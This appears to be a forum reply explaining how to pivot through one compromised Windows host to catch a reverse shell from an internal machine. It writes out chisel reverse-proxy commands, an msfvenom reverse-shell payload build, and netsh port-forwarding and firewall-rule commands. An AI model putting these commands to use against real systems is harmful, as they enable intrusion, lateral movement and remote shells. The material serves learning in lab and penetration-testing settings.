 I usually run chisel to proxy the traffic through a host but to catch a reverse shell through that same host I generally just port forward using built in windows commands.

So if you have something like:  
Attacking machine ([192.168.0.2](https://192.168.0.2/))  
Victim1 (external interface [192.168.0.3](https://192.168.0.3/) & internal interface [10.0.0.2](https://10.0.0.2/))  
Victim2 (only accessible via [10.0.0.3](https://10.0.0.3/))

I would first setup chisel for regular proxying of traffic:  
On Kali:

> sudo ./chisel server -v -p 8000 --reverse

> sudo echo “socks5 127.0.0.1 1080” >>/etc/proxychains4.conf

On Victim1:

> Chisel.exe client -v 192.168.0.1:8000 R:socks

Now let's say you need to catch a reverse shell on victim2 but you have to tunnel the shell through victim1:  
> msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.2 LPORT=443 -f exe > shell.exe  
Notice the LHOST is the internal interface of victim1 and port 443, which we now need to setup a forwarding rule so that anytime victim1 receives a connection from port 443 on its internal interface to forward it to my attacking host:  
On victim1:  
> netsh interface portproxy add v4tov4 listenport=443 listenaddress=10.0.0.2 connectport=8080 connectaddress=192.168.0.2  
> netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.0.0.2 localport=443 action=allow  
The above commands are basically telling victim1 to listen on internal interface ([10.0.0.2](https://10.0.0.2/)) port 443 and forward that traffic to the connect address which is our attacking machine ([192.168.0.2](https://192.168.0.2/)) port 8080. Then you'd just setup a listener on port 8080 on kali and you'd catch the shell. The second command just allows the traffic through the local firewall.

Probably an easier way of doing it but that's how I've done it.
